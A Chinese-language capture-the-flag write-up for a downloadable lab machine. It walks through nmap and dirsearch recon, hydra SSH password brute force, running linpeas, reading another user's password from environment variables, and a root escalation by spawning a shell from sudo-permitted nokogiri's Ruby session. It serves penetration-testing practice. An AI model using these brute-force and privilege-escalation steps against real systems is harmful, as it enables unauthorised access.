

## 复盘*

## 靶机地址

[Proton Drive](https://drive.proton.me/urls/7RQNZXS5JW#0fnRqJ2q92i9)


## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```

创建文件夹，用于存放nmap扫描结果


#### 主机探测

```
nmap -sn 192.168.23.0/24
```


确定靶机ip：

192.168.23.142


#### 端口扫描

```
nmap -p- --min-rate 10000 -sT 192.168.23.142 -oA ./nmapscan/ports
```


开放了：

- 22 ssh
- 80 http


#### 提取端口信息

```
ports
```


#### 详细结果扫描

```
nmap -sC -sV -sT -O -p 22,80 192.168.23.142 -oA ./nmapscan/detail
```


分析：

- 22 ssh Open SSH 8.4.p1
- 80 http Apache httpd 2.4.56


#### udp扫描

```
nmap -sU --top-ports 20 192.168.23.142 ./nmapscan/udp
```




### 80端口

#### 访问192.168.23.142


apache主页

查看源码，无信息


#### 目录扫描

```
dirsearch -u 192.168.23.142
```


存在info.php


#### 访问192.168.23.142/info.php


phpinfo信息


得到了一个用户

- axel


#### 尝试爆破密码

```
hydra -l axel -P /usr/share/wordlist/rockyou.txt ssh://192.168.23.142
```


得到

```
axel：bambam
```


### 22端口

#### ssh登录

```
ssh axel@192.168.23.142
```


## 提权

### 得到第一个flag

```
ls
cat user.txt
```


### 查看/etc/passwd

```
cat /etc/passwd
```


存在dylan用户

尝试进入dylan家目录

```
ls
cd dylan
```


失败


### 上传linpeas.sh

```
wget 192.168.23.134/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```


### env中存在dylan的密码

```
dylan:bl4bl4Dyl4N
```

```
env|grep dylan
```


### 切换用户

```
su dylan
```


### 执行sudo -l

```
sudo -l
```


无密码执行nokogiri


### 利用nokogiri提权

#### 首先阅读nokogiri手册

```
man nokogiri
```


```
Nokogiri (鋸) 是一个用于解析 HTML、XML、SAX 的解析器。Nokogiri 的众多功能之一是能够通过 XPath 或 CSS3 选择器搜索文档。nokogiri 命令解析一个文档，并启动一个交互式 Ruby 会话 (irb(1))，允许用户交互式地分析结果。
```

interactive ruby session(irb(1))

即如果我们能够开启ruby会话，就可以尝试利用该会话提权


#### ruby执行命令的方法


#### 首先创建一个文档

内容无所谓

```
vi 1
cat 1
```


#### 利用nokogiri解析该文档


进入ruby会话

```
system"id"
```


```
system"/bin/sh"
whoami
```


### 得到第二个flag

```
cd /root
ls
cat root.txt
```

